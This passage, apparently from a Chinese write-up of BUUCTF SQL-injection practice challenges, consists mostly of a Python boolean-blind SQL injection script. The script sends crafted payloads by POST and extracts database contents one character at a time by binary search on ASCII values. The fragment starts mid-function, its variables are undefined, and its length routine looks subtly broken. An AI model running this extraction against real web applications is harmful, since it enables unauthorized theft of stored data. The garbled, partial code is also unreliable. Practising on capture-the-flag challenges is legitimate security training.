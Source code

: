 ```
        parameters_url[target_url] = payload
        r = requests.post(url, data=parameters_url)
    elif method == 2:
        parameters_json[target_json]=payload
        r = requests.post(url, json=parameters_json)
    return keywords in r.text  # 这里判断页面是否存在关键字

def get_length(url,payload):
    if payload == "":
        return 0
    for i in range(1, 200):
        if boolean_query(url,payload):
            return i
    return 0

def get_name(url,length,payload):
    results=[]
    if length == 0:
        length = 400
    name = ""
    for i in range(1,length+1):
        low, high = 32, 126
        while low < high:
            time.sleep(0.1)
            mid = (low + high) // 2
            tmp_payload = payload.format(i=i,mid=mid)
            if boolean_query(url,tmp_payload):
                low = mid + 1
            else:
                high = mid
        if low == 32:  # ASCII 32 = 空格，表示结束
            break
        name += chr(low)
        print(chr(low),end="")
    return name

payload = payloads[x]
length = get_length(url,payload)
result = get_name(url,length,payload)
print(f"\n[+] Found : {result}")
```

一开始先查了数据库，后面发现没必要

![](/img/BUUCTF_SQL刷题/SThibFGh1oDzufxI7Flcvf0hnAe.png)

